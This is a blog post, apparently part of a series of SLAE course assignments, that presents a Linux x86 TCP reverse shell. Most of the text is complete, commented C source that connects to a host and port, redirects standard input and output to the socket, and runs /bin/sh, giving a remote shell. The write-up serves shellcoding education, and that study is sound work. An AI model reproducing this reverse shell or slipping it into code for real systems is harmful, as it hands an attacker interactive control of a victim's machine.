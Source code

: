 ```yaml
---
layout: post
title: Linux x86 TCP Reverse Shell
tags: [slae]
---
```


This is the second assignment for the SLAE which is the Linux x86 TCP Reverse Shell. This one will actually be less complex than the bind shell as there are less things to do.. I break down the code pretty thoroughly in the bind shell write up, so this one won't be as detailed due to a lot of the code being the same. You can check out the bind shell write up [here](https://www.sploitspren.com/2018-04-10-Linux-x86-TCP-Bind-Shell/).

To kick things off I've modified our existing bind shell C code to instead send a reverse shell. I also updated the dup2() portion to loop in the code to make things a bit cleaner. 

```c
#include <sys/socket.h>
#include <netinet/in.h>
#include <stdlib.h>

int main()
{
	// Create the socket (man socket)
	// AF_INET for IPv4
	// SOCK_STREAM for TCP connection
	// 0 leaves it up to the service provider for protocol, which will be TCP 
	int host_sock = socket(AF_INET, SOCK_STREAM, 0);

	// Create sockaddr_in struct (man 7 ip)
	struct sockaddr_in host_addr;

	// AF_INET for IPv4
	host_addr.sin_family = AF_INET;
	
	// Set connect port number to 1234, set to network byte order by htons
	host_addr.sin_port = htons(1234);

	// IP to connect to, set to network byte order by inet_addr
	host_addr.sin_addr.s_addr = inet_addr("127.0.0.1");
	
	// Connect socket (man connect)
	connect(host_sock, (struct sockaddr *)&host_addr, sizeof(host_addr));
		
	// Loop to redirect STDIN, STDOUT, and STDERR
	int i;
	for(i=0; i<=2; i++) 
		dup2(host_sock, i);
	
	// Execute /bin/sh (man execve)
	execve("/bin/sh", NULL, NULL);

}
```
